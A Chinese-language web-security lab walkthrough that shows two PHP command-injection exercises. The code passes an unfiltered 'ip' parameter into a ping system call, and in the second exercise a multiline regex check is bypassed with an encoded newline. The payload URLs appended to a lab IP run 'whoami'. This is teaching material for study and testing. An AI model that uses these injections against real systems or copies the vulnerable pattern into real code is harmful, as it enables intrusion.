### 2.1.2 Commands injection Example 1

从代码可以看出未做过滤

```plain
<?php
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用 | 连接符跟上要执行的命令  
[http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1](http://192.168.245.131/commandexec/example1.php?ip=127.0.0.1) | whoami  
[![](assets/1704850598-f6cb1ceb3763ca117dc0d94b9f333410.png)](https://raw.githubusercontent.com/hongriSec/Web-Security-Attack/master/Part1/Day13/files/assets/VsIuqiVHiaU2vVyN.png)

### 2.1.3 Commands injection Example 2

从代码可以看出使用/m，/m 只匹配一行，所以可以使用换行符绕过

```plain
<?php
  if (!(preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}$/m', $_GET['ip']))) {
     die("Invalid IP address");
  }
  system("ping -c 2 ".$_GET['ip']);
?>
```

使用%0a 进行绕过  
[http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami](http://192.168.245.131/commandexec/example2.php?ip=127.0.0.1%0awhoami)  